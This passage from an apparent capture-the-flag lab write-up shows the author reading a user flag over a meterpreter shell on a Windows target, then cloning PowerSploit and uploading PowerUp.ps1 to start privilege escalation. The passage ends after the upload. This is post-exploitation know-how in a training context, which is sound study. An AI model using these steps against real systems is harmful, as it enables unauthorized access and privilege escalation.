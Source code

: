 C:\Users\bill\Desktop>type user.txt
type user.txt
b04763b6fcf51fcd7c13abc7db4fd365
#and got the flag
	










### PRIVILEGE ESCALATION ###

#the room says to use a powershell script calles PowerUp.ps1
#after quickly googling it it looks like its possible to clone it from github --> https://github.com/PowerShellMafia/PowerSploit/blob/master/Privesc/PowerUp.ps1
#I therefore proceeded to clone it and upload it to metasploit
(kali㉿kali)-[~]
└─$ sudo git clone https://github.com/PowerShellMafia/PowerSploit.git
[sudo] password for kali:
Cloning into 'PowerSploit'...
remote: Enumerating objects: 3086, done.
remote: Total 3086 (delta 0), reused 0 (delta 0), pack-reused 3086
Receiving objects: 100% (3086/3086), 10.47 MiB | 3.60 MiB/s, done.
Resolving deltas: 100% (1809/1809), done.

┌──(kali㉿kali)-[~]
└─$ ls
Desktop    Downloads   HTB    Pictures     Public  pwntools    shell.war   Templates  tools
Documents  flask_test  Music  PowerSploit  pwndbg  rshell.war  sqlmap-dev  THM        Videos

┌──(kali㉿kali)-[~]
└─$ cd PowerSploit

┌──(kali㉿kali)-[~/PowerSploit]
└─$ ls
AntivirusBypass  Exfiltration  mkdocs.yml        PowerSploit.psm1     Privesc    ScriptModification
CodeExecution    LICENSE       Persistence       PowerSploit.pssproj  README.md  Tests
docs             Mayhem        PowerSploit.psd1  PowerSploit.sln      Recon

┌──(kali㉿kali)-[~/PowerSploit]
└─$ cd Privesc

┌──(kali㉿kali)-[~/PowerSploit/Privesc]
└─$ ls
Get-System.ps1  PowerUp.ps1  Privesc.psd1  Privesc.psm1  README.md

#to upload it to metasploit I did the following:
C:\Users\bill\Desktop>^Z
Background channel 3? [y/N]  y

meterpreter > upload /home/kali/PowerSploit/Privesc/PowerUp.ps1
[*] uploading  : /home/kali/PowerSploit/Privesc/PowerUp.ps1 -> PowerUp.ps1
[*] Uploaded 586.50 KiB of 586.50 KiB (100.0%): /home/kali/PowerSploit/Privesc/PowerUp.ps1 -> PowerUp.ps1
[*] uploaded   : /home/kali/PowerSploit/Privesc/PowerUp.ps1 -> PowerUp.ps1

